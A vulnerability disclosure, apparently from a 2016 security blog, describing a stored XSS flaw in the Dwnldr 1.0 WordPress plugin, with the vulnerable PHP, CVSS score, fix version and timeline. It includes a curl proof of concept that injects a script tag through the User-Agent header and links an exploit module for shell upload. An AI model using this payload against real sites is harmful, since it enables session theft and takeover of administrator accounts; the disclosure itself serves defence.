 ```yaml
---
layout: single
title: Dwnldr 1.0 Stored XSS Disclosure
date: 2016-07-18
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - dwnldr
  - stored xss
excerpt: Due to a lack of input sanitization in the `dwnldr.php` file, it is possible for unauthenticated users to utilise an XSS vector to store and run a script in the target user's browser and potentially compromise the WordPress installation.
---
```

## Homepage
[https://wordpress.org/plugins/dwnldr/](https://wordpress.org/plugins/dwnldr/)

## Overview
Due to a lack of input sanitization in the `dwnldr.php` file, it is possible for unauthenticated users to utilise an XSS vector to store and run a script in the target user's browser and potentially compromise the WordPress installation.

The vulnerable code can be found on lines 92 and 66 of `dwnldr.php`.

On line 92, when logging the download request, the content of `HTTP_USER_AGENT` is stored in the database in its raw form:

```php
$log = array(
    'user' => get_current_user_id(),
    'time' => date('Y-m-d H:i:s'),
    'ip' => $_SERVER['REMOTE_ADDR'],
    'browser_info' => $_SERVER['HTTP_USER_AGENT'],
);
$meta = apply_filters('dwnldr_logs', $log);
add_post_meta($post->ID, '_download_log', $meta);
$this->force_download( $post, $ext );
```

When an admin user views the download logs, on line 66, it will echo the user agent string to the user with no encoding:

```php
<td><span title="<?php echo $log['browser_info']; ?>"><?php echo substr($log['browser_info'], 0, 64).'&hellip;'; ?></span></td>
```

## CVSS Score
5.3

## CVSS Vector
[(AV:N/AC:L/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/cvss.cfm?calculator&version=2&vector=(AV:N/AC:L/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
1.0

## Solution
Upgrade to version 1.01

## Proof of Concept
```bash
curl -A "User-Agent: <script>alert(document.cookie);</script>" -O http://<target>/?attachment_id=<attachment id>
```

## WordPress Exploit Framework Module
[exploit/xss/stored/dwnldr\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/modules/exploit/xss/stored/dwnldr_xss_shell_upload.rb)

## WPVDB-ID
8556

## Disclosure Timeline
* **2016-07-17**: Identified vulnerability, contacted vendor with POC and a solution.
* **2016-07-18**: Vendor responded and released patch.
* **2016-07-18**: Disclosure made public
